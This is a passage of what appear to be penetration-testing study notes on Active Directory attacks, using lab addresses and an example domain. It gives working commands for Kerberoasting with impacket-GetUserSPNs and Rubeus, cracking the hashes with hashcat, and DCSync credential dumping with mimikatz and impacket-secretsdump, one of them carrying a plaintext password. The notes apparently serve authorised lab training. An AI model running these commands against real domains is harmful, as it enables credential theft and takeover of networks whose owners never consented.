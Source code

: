    ```

   - Linux

     ```
     impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
     impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete -outputfile filename
     ```

     

   - Windows

     ```
     .\Rubeus.exe kerberoast /outfile:hashes.kerberoast
     ```

     

2. Bruteforce

```shell
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```



#### 3. Silver Ticket

#### 4. DC sync

if user has these rights, can perform ***dcsync*** attack

- *Replicating Directory Changes*
- *Replicating Directory Changes All*
- *Replicating Directory Changes in Filtered Set*



1. Get NTLM Hash

   - Windows

     ```
     mimikatz # lsadump::dcsync /user:corp\dave
     ```

     

   - Linux

     ```
     impacket-secretsdump egotistical-bank.local/svc_loanmgr@10.10.10.175
     
     impacket-secretsdump corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
     
     impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
     ```
